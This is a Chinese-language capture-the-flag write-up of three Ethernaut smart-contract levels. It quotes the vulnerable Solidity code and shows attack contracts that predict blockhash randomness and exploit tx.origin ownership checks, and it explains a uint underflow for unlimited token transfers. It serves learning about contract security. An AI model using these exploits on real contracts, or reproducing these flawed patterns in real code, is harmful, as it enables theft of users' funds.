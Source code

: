 ```yaml
---
note:
    createdAt: 2020-05-26T02:16:43.140Z
    modifiedAt: 2020-06-07T01:37:27.964Z
    tags: []
---
```

# Ethernaut WP

##  前言
现在自己的solidity的基础语法和相关内容已经了解了，现在通过题目来加深一下以太坊合约漏洞的挖掘方式

## Coin Flip
首先点击 `Get new instance`实例化一个合约，对于我做时的场景

> Address: "0x4b7e814de0f82bd45e2f736a72f5762bf10e6361"
> Test Network: Ropsten

要求：
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### 源码分析
先去etherscan上将源码保存下来
```solidity
/**
 *Submitted for verification at Etherscan.io on 2018-05-16
*/

pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

分析一下源码

可以看到决定游戏胜利的条件是`consecutiveWins`的大小达到`10`，向下挖掘可以改变此值的位置，发现可以通过猜伪随机数的方式来实现增加。

在这里补充下 `block`的概念
>block.number(uint)：solidity中的一个EVM内置的全局变量，其内容是当前交易的区块高度                    
>block.blockhash(uint blocknumber)：返回给定区块的哈希值

可以看到题目中使用的是上一个区块的hash值，而上一个区块的hash值已经是一个确定的值了，因而可以通过模拟合约的行为来进行猜测

*补充一个交易的详细信息来方便理解交易与区块的关系与概念*
```text
Transaction Hash: x8c20b80588d14ddfc6cd3926a92aa17502b3cb021323bfbd438a8449a8c5e4ae 
Status: Success
Block: 8038749
Timestamp: 1 hr 12 mins ago (Jun-06-2020 01:55:46 PM +UTC)
From: 0xa9af91b9567fbebbf95fc82c0c51a70deab10dc2 
To: Contract 0xc833a73d33071725143d7cf7dfd4f4bba6b5ced2 
Value: 0 Ether ($0.00)
Transaction Fee: 0.0006480639 Ether ($0.000000)
```

编写攻击合约
```solidity
contract exp {
    address con_addr = 0x4b7e814de0f82bd45e2f736a72f5762bf10e6361;
    CoinFlip c = CoinFlip(con_addr);
    
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function guess() public {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        bool side = coinFlip == 1 ? true : false;
        c.flip(side);
    }
    
    function getFlag() public {
        for(uint i = 0; i < 10;i++) {
            guess();
        }
    }
}
```
利用`remix ide`将合约部署到测试网络上，十次之后即可通关


## Telephone
典型的 `tx.origin`与`msg.sender`的区别的问题，初始化实例后

> Address: 0x9450bcddcaa9ffc439732f08ebb90d033473ee3b
> Test Network: Ropsten

要求：
> Claim ownership of the contract below to complete this level.

### 源码分析
```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
可以看到只要使tx.origin与msg.sender不同即可

补充下相关内容
> tx.origin：交易的发起人，站在整个交易的顶点，只存在个人地址
> msg.sender：具体调用每一个方法的人，例如合约地址或者个人地址

所以可以看到只要另起合约即可使关系发生变化，即 tx.origin => 个人账户，msg.sender => 合约账号

编写攻击合约
```solidity
contract exp {
    address cont_addr = 0x9450bcddcaa9ffc439732f08ebb90d033473ee3b;
    Telephone t = Telephone(cont_addr);
    
    function change() public {
        t.changeOwner(tx.origin);
    }
}
```
将合约部署到测试网络上后即可实现owner的转换

## Token
考察uint的内容，初始化实例后

> Address:  0x6545df87f57d21cb096a0bfcc53a70464d062512
> Test Network: Ropsten

要求：

> Preferably a very large amount of tokens.

### 源码分析
```solidity
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

可以看到对于mapping类型的balances变量，其值的类型uint永大于0，因此transfer的限制基本就无用了，直接随意转一个超级大的数即可


